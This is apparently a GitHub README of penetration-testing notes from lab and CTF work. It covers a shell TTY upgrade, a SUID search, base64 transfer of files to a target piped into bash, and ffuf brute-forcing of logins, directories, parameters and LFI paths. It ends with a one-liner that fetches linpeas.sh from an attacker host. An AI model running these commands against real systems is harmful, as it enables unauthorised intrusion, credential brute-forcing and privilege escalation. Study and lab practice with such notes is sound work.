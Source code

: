 # FunThings
Funthings

## STTY upgrade

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
stty rows 40 cols 190
export SHELL=bash
export TERM=xterm
export LS_OPTIONS='--color=auto'
eval "`dircolors`"
alias ls='ls $LS_OPTIONS'
export PS1='\[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[01;34m\] \w\$\[\033[00m\] '
press CTRL+Z
stty raw -echo
fg
ENTER
ENTER
```

## SUID 

```
find / -type f -perm -04000 -ls 2>/dev/null
```


## Get response (bash) 

```
echo -n "Enter a Username: " && head -1 </dev/s| tr -d "\n"
```


## Quick transfer shells + encoded (copy and paste to target)

Easy Binary or file transfer

```
#Encode file
cat file | base64 -w500 | xclip -sel o

#Go to target and press SHIFT+INSERT after entering command line below

cat<<EOF >filename.b64
#SHIFT+INSERT NOW
EOF

#Decode file or run straight
cat file.b64 | base64 -d > file.sh
cat file.b64 | base64 -d | bash
```

### Example

test.sh
```
#!/bin/bash
echo "Testing Works"
```

```
cat test.sh | base64 -w500 | xclip -sel o

cat <<EOF > testing.b64                  
heredoc> IyEvYmluL2Jhc2gKZWNobyAiVEVTVElORyIK                               # << Pressing "SHIFT" + "INSERT" here                 
heredoc> EOF

cat testing.b64 | base64 -d | bash
Testing Works
```


## Crunch

```
crunch 8 8 -t k1ll0r@@ --stdout
crunch 8 8 -t k1ll0r@@ -f charset.lst mixalpha-numeric
```


## Ffuf

### post login

```
ffuf -u "http://34.94.3.143/7b4c1c34db/secure-login/"  -d "username=FUZZ&password=a" -w "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt" -fr "Invalid Username" -H 'Content-Type: application/x-www-form-urlencoded'

ffuf -u "http://34.94.3.143/7b4c1c34db/secure-login/"  -d "username=access&password=FUZZ" -w "/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt" -fr "Invalid Password" -H 'Content-Type: application/x-www-form-urlencoded'

```

### Dir Fuzz

```
ffuf -u http://10.10.11.135/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -i -ic -mc all  -t 80 -fc 404,403 -e .php,.html,.txt -c
```

### Paramater FUZZ

GET
```
ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx
```

POST
```
ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```

### Recursive Fuzz

```
ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v
```

### Value Fuzzing 

```
ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```

### LFI FUZZ

Fuzz 2 point (LFI example, img,file,path(WW1), filepath(WW2))

```
ffuf -u http://10.10.11.135/image.php?WW1=WW2 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:WW1,/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt:WW2   -i -ic -mc all  -t 80  -c -fc 404,403,301
```

```
ffuf -u http://10.10.11.135/image.php?img=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt   -i -ic -mc all  -t 80  -c -fc 404,403,301
```

![image](https://user-images.githubusercontent.com/5285547/149621994-1c2b5e52-a5a6-47e3-8970-ab70f7ee42d1.png)

### Exts Fuzzing

```
ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ
```

```
ffuf -u http://test.academy.htb:32583/FUZZ -w ~/Desktop/Useful\ Repos/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -mc all -fc 404 -c -ic -e .php,.html,.txt,.htm,.aspx,.asp,.js,.css,.pgsql.txt,.mysql.txt,.pdf,.cgi,.inc,.gif,.jpg,.swf,.xml,.cfm,.xhtml,.wmv,.zip,.axd,.gz,.png,.doc,.shtml,.jsp,.ico,.exe,.csi,.inc.php,.config,.jpeg,.ashx,.log,.xls,.0,.old,.mp3,.com,.tar,.ini,.asa,.tgz,.PDF,.flv,.php3,.bak,.rar,.asmx,.xlsx,.page,.phtml,.dll,.JPG,.asax,.1,.msg,.pl,.GIF,.ZIP,.csv,.css.aspx,.2,.JPEG,.3,.ppt,.nsf,.Pdf,.Gif,.bmp,.sql,.Jpeg,.Jpg,.xml.gz,.Zip,.new,.avi,.psd,.rss,.5,.wav,.action,.db,.dat,.do,.xsl,.class,.mdb,.include,.12,.cs,.class.php,.htc,.mov,.tpl,.4,.6.12,.9,.js.php,.mysql-connect,.mpg,.rdf,.rtf
```

## Wordlists 

| Command | Description |
| ------- | ----------- |
|/opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt |	Directory/Page Wordlist|
|/opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt	| Extensions Wordlist |
|/opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt |	Domain Wordlist |
|/opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt	|Parameters Wordlist|

## PHP md5 sum date every second

php -a

```
while (true){echo date("D M j G:i:s T Y"); echo " = " ; echo md5('$file_hash' .
time());echo "\n";sleep(1);}
```

## Python3 FTP server

```
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21
```

## Python3 download a file 

```
python3 -c "import urllib.request;u = 'http://10.33.1.154:8080/linpeas.sh';urllib.request.urlretrieve(u, 'linpeas.sh')"
```
